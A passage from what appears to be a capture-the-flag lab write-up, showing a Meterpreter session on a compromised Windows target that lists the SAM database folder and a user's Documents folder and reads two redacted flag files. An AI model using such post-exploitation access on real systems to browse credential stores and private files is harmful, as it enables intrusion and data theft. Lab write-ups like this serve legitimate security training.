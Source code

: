 The next flag was in the SAM (Security Account Manager) database location at `C:\Windows\system32\config`.

```text

meterpreter > ls
Listing: C:\Windows\system32\config
===================================

Mode            Size      Type  Last modified            Name
----            ----      ----  -------------            ----
100666/rw-rw-r  28672     fil   2018-12-12 18:00:40 -05  BCD-Template
w-                              00
100666/rw-rw-r  25600     fil   2018-12-12 18:00:40 -05  BCD-Template.LOG
w-                              00
100666/rw-rw-r  18087936  fil   2022-01-19 01:06:57 -05  COMPONENTS
w-                              00

...

100666/rw-rw-r  524288    fil   2019-03-17 18:21:22 -04  SYSTEM{016888cd-6c6f-11d
w-                              00                       e-8d1d-001e0bcde3ec}.TMC
                                                         ontainer0000000000000000
                                                         0002.regtrans-ms
040777/rwxrwxr  4096      dir   2018-12-12 18:03:05 -05  TxR
wx                              00
100666/rw-rw-r  34        fil   2019-03-17 15:32:48 -04  flag2.txt
w-                              00
040777/rwxrwxr  4096      dir   2010-11-20 21:41:37 -05  systemprofile
wx                              00

meterpreter > cat flag2.txt
flag{[ REDACTED ]}
```

The final flag was in the Documents folder for the user Jon at `C:\Users\Jon\Documents`.

```text

meterpreter > ls
Listing: C:\Users\Jon\Documents
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2018-12-12 22:13:31 -0500  My Music
040777/rwxrwxrwx  0     dir   2018-12-12 22:13:31 -0500  My Pictures
040777/rwxrwxrwx  0     dir   2018-12-12 22:13:31 -0500  My Videos
100666/rw-rw-rw-  402   fil   2018-12-12 22:13:48 -0500  desktop.ini
100666/rw-rw-rw-  37    fil   2019-03-17 15:26:36 -0400  flag3.txt

meterpreter > cat flag3.txt
flag{[ REDACTED ]}
```
